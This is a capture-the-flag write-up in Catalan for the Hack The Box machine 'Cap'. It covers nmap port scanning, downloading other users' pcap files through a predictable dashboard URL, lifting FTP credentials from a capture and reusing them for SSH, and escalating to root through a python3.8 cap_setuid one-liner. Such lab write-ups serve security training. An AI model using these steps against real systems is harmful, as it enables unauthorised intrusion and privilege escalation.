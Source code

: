 <p align="center">
  <img src="https://github.com/user-attachments/assets/9d0f2f9d-818d-42ae-9dd0-02cf12aeeba0" alt="cap-htb-header" width="700" height="500">
</p>

---

## NMAP scanning
Escaneig a través d'enviament de paquets TCP SYN a tots els ports del host per detectar quins estan oberts.
````bash
❯ nmap -p- --open -sS -v -n --min-rate=5000 -Pn -n 10.10.10.245

PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 13.45 seconds
           Raw packets sent: 72198 (3.177MB) | Rcvd: 72198 (2.888MB)
````
Amb els ports resultants de l'escaneig anterior, enumerar la versió i llençar els scripts per defecte de NMAP.
````bash
❯ nmap -sCV -p21,22,80 -Pn 10.10.10.245

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.05 seconds
                                                                            
````
Buscant la versió de SSH al launchpad d'Ubuntu ja es pot extreure que, segurament, el host té un Ubuntu Focal.

## Web enumeration
Un dels apartats de la web realitza un seguiment del tràfic de la xarxa durant 5 segons i l'exporta en un arxiu .pcap per poder analitzar-lo amb WireShark. Mirant la forma que té l'URL, _/data/[nº], es pot provar si altres números corresponen a algun arxiu .pcap d'un seguiment anterior de la xarxa.

![image](https://github.com/user-attachments/assets/ffdfe307-69b7-459a-aedb-d0c9141b534c)

Hi tenim accés, i podem descarregar tots els arxius per obrir-los amb WireShark i analitzar-los.

## User
El primer arxiu, _0.pcap_, ha capturat una sèrie de connexions fetes pel protocol FTP, entre les quals es troba l'autenticació d'un usuari anomenat _nathan_ amb la contrasenya _Buck3tH4TF0RM3!_.

![image](https://github.com/user-attachments/assets/9f11edef-f0f4-40ca-8dd6-acbba2c07f45)

Si provem les credencials al servidor FTP podem accedir-hi, i podem veure el que sembla el directori _home_ de l'usuari _nathan_. De la mateixa manera, si ens autentiquem mitjançant SSH amb les mateixes credencials, podem aconseguir una consola interactiva com aquest usuari, ja que les credencials es reutilitzen. 

![image](https://github.com/user-attachments/assets/432fb5fc-a3b0-4fd0-be71-4098c40999b4)

## Privilege escalation
Llistant les _capabilities_ del host, podem veure que Python3.8 té assignat _cap_setuid_, pel que es pot utilitzar aquest binari per a manipular el UID d'un procés i, doncs, pot fer-se servir per tenir una consola amb UID 0 (root).
````bash
> getcap -r / 2>/dev/null

/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
````
````python
>>> import os; os.setuid(0); os.system("/bin/bash")
````
![image](https://github.com/user-attachments/assets/62020c74-b114-46e5-bc2f-9177f49a34a8)
